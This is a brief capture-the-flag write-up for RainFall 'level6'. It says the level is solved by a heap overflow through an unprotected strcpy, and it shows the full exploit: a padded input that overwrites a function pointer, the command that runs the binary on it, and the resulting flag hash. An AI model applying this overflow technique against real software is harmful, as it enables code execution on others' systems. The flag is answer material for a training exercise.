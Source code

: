 # level6

This time, instead of stack overflow we do a heap overflow using an unprotected
`strcpy`. It's almost the same.

## The exploit

```bash
level6@RainFall:~$ echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ\x01\x01\x01\x01\x54\x84\x04\x08" > /tmp/exploit
level6@RainFall:~$ ./level6 $(cat /tmp/exploit)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```